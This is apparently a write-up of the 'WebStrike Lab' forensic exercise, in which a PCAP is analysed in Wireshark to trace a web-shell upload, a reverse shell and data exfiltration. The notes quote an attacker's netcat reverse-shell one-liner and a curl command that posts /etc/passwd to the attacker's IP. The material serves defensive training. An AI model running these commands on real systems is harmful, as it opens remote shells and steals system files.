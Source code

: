 # WebStrike Lab

## Objective:

Task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.

### Skills Learned

1. Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?
2. Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?
3. We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?
4. Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?
5. Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?
6. Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

### Tools Used

- Wireshark
- ipgeolocation.io

## Steps:

### Ref 1: WebStrike.PCAP file
1. Navigate to the WebStrike.PCAP file that was captured ---| *Ref 1: WebStrike.PCAP file |.
2. Perform an IPv4 Address Lookup of ---| 117.11.88.124 |. 
3. Identify the User-Agent ---| Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |.
4. Create a filter for Wireshark ---| (ip.src == 117.11.88.124 and http.request.method=="POST") |.
5. Identify any successful uploads ---| "image.jpg.php" uploaded successfully |.
6. Locate the file location of the uploaded file ---| /reviews/uploads/ |.
7. Identify the targeted Port used for infiltration ---| Port 8080 |.
8. Create a filter for Wireshark ---| (tcp.port==8080) && (ip.src==24.49.63.79) |.
9. Identify the commands used for exfiltration ---| "curl" "curl -X POST -d /etc/passwd 117.11.88.124:443" |.
10. Identified the critical information containing sensitive user configuration data.

drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

*Ref 1: WebStrike.PCAP file


## Notes:

- Thunar file system interaction
- https://ipgeolocation.io/   for IPv4v Address (117.11.88.124) Lookup
- WebStrike.PCAP
- uese-agent ---- | Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |
- Filter for wire shark ---- |(ip.src == 117.11.88.124 and http.request.method=="POST") |
- "image.jpg.php" uploaded successfully
- ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f")
- Uploaded file found in /reviews/uploads/
- Port 8080 targeted
- Filter for wire shark ---- | (tcp.port==8080) && (ip.src==24.49.63.79) |
- Attacker used "curl" "curl -X POST -d /etc/passwd 117.11.88.124:443/"
- Shows exfiltration of critical information containing sensitive user configuration data.
- 
